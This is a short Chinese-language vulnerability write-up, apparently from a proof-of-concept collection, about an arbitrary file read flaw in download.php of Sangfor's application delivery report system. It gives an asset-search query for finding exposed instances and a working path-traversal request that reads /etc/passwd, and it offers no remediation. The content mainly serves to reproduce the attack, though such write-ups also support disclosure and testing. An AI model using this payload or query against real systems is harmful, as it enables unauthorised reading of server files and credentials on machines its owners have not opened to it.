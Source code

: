 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
深信服 应用交付报表系统
```

## 网络测绘

```
app="SANGFOR-应用交付报表系统"
```

## 漏洞复现

登录页面

![image-20220525144847811](./images/202205251448956.png)

验证POC

```
/report/download.php?pdf=../../../../../etc/passwd
```

![image-20220525144958637](./images/202205251449708.png)
